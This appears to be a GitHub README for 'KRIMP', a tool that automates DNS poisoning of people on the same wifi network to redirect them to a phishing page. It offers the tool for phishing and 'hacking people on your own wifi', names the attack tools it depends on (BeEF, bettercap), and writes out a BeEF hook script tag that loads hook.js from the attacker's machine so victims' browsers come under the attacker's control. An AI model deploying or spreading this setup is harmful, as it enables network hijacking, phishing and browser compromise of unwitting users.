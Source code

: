 # KRIMP
```
   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
  ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
  ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
 ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
  ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
  ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
  ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
  ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:
`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

